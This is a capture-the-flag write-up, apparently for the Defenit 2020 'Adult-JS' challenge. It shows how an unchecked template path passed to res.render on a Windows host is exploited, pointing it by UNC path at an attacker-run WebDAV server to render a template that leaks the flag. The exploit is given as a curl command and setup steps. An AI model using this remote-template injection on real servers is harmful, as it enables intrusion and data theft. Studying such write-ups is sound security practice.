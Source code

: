 ```js
        res.end('Error');
    }
});
```

We can set the body parameter `hcda7a4f9`  which will allow us to specify the path to a template to render , and the cookies  `f71f5ce80`  will send to the assertion is required to pass .

```
ae97ef205 = req.body.hcda7a4f9;
res.render(ae97ef205);

f71f5ce80 = req.cookies.i77baba57;
ae9a8c19f = assert(f71f5ce80);
```

Now we hava a way to load specific template , but we could not write to the template like we did in babyJS, how to control the template?

The hints come into play here 

> Adult-JS is Served by Windows
>
> UNC Path

The program running on windows , which means we can specify a UNC path to load a template remotely.

Using the resource path contain `{{> FLAG}}` like `\\IP\public`  to render.

```
45.63.124.33 - - [07/Jun/2020:15:35:45 +0800] "OPTIONS /public/.html HTTP/1.1" 403 428 "-" "Microsoft-WebDAV-MiniRedir/10.0.14393"
```

Wikipedia says:

> Some Microsoft Windows interfaces also allow or require UNC syntax for [WebDAV](https://en.wikipedia.org/wiki/WebDAV) share access, rather than a URL. The UNC syntax is extended with optional components to denote use of SSL and TCP/IP port number, a WebDAV URL of `http[s]://HostName[:Port]/SharedFolder/Resource` becomes `\\HostName[@SSL][@Port]\SharedFolder\Resource`

So run a WebDAV server and  set the template to render!

1. Configure WebDav server. I used apache2.
2. Upload a template file (flag.html)
3. Render it using the endpoint.

```bash
$ curl "http://adult-js.ctf.defenit.kr/61050c6ef9c64583e828ed565ca424b8be3c585d90a77e52a770540eb6d2a020" --data "hcda7a4f9=\\\\IP@8181\\index" --cookie "i77baba57=a"
```

**`Defenit{AuduLt_JS-@_lo7e5_@-b4By-JS__##}`**

### References

1. https://blog.justins.in/defenit2020/
2. [analyzer](https://gist.github.com/SeahunOh/6e944a2b34c34a989c6a4066e0896b47)
